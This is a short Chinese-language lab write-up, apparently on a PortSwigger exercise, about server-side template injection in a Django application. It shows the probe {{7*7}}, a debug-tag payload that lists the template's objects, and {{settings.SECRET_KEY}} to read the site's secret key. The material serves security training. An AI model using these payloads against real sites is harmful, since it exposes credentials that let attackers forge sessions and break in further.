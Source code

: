 网址首页的模板用户可以自由更改



验证漏洞：

```javascript
{{7*7}}
```

报错：

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/模板注入/images/65E6A62805084FE689A8FD61DCE2359Bclipboard.png)

此时已经说明和服务端有交互存在漏洞



根据报错信息，知道这是一个django框架的网址

payload:

```javascript
{`%` debug %}
```

输出将包含可以在此模板内访问的对象和属性的列表



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/模板注入/images/643DE0F6C9A241DF8E3C8364D3C00518clipboard.png)



可以使用setting对象



获取SECRET_KEY

payload:

```javascript
{{settings.SECRET_KEY}}
```

